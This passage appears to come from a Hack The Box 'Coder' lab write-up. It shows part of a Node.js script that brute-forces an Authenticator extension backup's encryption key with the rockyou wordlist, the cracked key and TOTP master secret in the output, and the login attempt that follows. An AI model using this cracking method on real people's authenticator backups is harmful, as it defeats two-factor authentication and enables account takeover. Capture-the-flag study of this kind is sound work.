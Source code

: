 ```js
        return;
    }
}

function main() {
    const wordlistPath = argv[2];
    const fileContentPath = argv[3];

    if (!wordlistPath || !fileContentPath) {
        console.log("Usage: node authenticator_cracker.js <wordlist> <authenticator.json>");
        process.exit(1);
    }

    const { totpSecret, encKey } = readFileContent(fileContentPath);
    const wordlist = fs.readFileSync(wordlistPath).toString().split("\n");

    wordlist.forEach((word) => {
        bruteforceEncKey(word, encKey, totpSecret);
    });
}

main();
```

So i improved the script a bit and now it looks great and is ready to use. I use `rockyout.txt`as wordlist. And after a few seconds we got the `Master Key`. Great

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ node authenticator_cracker.js /usr/share/wordlists/rockyou.txt sblade_authenticator.json 
---------------------------
Encryption Key: skyblade
MasterKey: PM2CG6RO73QT74WS
---------------------------
```

###### Login

Now I just used the `skyblade` encryption key and imported the backup file into my `Authenticator` plugin. Now we can login and enter the `TOTP` we got from the plugin.

![](https://cdn.discordapp.com/attachments/1071118357933338645/1189263747768926258/image.png?ex=659d872c&is=658b122c&hm=14ca07f3e8ed113e4250d8586db19b241092fdabc5aa92053df59e9bf59be4e2&)

But unfortunately I got an error that my `TOTP` was not valid. After a bit of research I found out that this is due to my computer clock. My computer clock needs to be synchronized with the AD time to get a correct `TOTP`.

```ad-info
title: TOTP Time Issues

This has been observed when the appliance or the user device/App and their correct time/time zone are not in sync. TOTP is an algorithm that computes a one-time password from a shared secret key(this is done in the form of a QRCode) and the current time. Therefore, it is very important to make sure that the SMA/UTM appliances and the end user devices/Apps are set to the right time and date.
```
